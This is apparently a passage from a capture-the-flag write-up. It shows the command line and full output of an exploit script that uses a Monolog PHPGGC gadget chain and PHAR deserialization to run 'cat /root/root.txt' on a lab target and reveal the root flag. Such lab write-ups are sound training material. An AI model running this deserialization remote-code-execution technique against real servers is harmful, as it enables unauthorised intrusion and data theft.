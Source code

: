##From this we got the id, and by obtaining the root flag we have to modify the cmd a little bit
```
sudo ./exploit.py http://localhost:8000 Monolog/RCE1 "cat /root/root.txt" 
[i] Trying to clear logs
[+] Logs cleared
[i] PHPGGC not found. Cloning it
Cloning into 'phpggc'...
remote: Enumerating objects: 2587, done.
remote: Counting objects: 100% (929/929), done.
remote: Compressing objects: 100% (522/522), done.
remote: Total 2587 (delta 374), reused 812 (delta 283), pack-reused 1658
Receiving objects: 100% (2587/2587), 388.83 KiB | 3.06 MiB/s, done.
Resolving deltas: 100% (1016/1016), done.
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

454fa3814befe7f4c6f52b06d30ab862

[i] Trying to clear logs
[+] Logs cleared

```

#BOOOMMMMMMMM!!! HERE WE GOT OUR ROOT FLAG 

```
454fa3814befe7f4c6f52b06d30ab862
```
